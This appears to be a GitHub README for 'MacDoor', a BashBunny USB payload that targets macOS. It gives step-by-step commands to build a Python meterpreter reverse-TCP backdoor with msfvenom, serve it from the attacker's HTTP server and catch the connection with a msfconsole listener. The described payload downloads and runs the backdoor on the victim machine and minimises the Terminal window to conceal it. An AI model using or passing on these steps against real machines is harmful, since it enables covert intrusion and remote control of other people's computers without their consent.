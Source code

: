 # MacDoor - Python Backdoor Execution for the BashBunny

    __  ___              ____                     
   /  |/  /____ _ _____ / __ \ ____   ____   _____
  / /|_/ // __ `// ___// / / // __ \ / __ \ / ___/
 / /  / // /_/ // /__ / /_/ // /_/ // /_/ // /    
/_/  /_/ \__,_/ \___//_____/ \____/ \____//_/     


* Author:     afsh4ck
* Version:    1.0
* Target:     MacOS
* Tested on:  Ventura 13.3.1
* Category:   Execution

# Description

Download a Python backdoor from our server, run it in terminal and minimize the terminal window.

# Steps

* Step 1: msfvenom -p python/meterpreter/reverse_tcp LHOST={your IP} LPORT=4444 -o backdoor.py  
* Step 2: mount a local server 'python3 -m http.server'  
* Step 3: msfconsole multi/handler listener open before the attack.

# Note

* You need to modify the script with your attacker IP and the port or your local server.

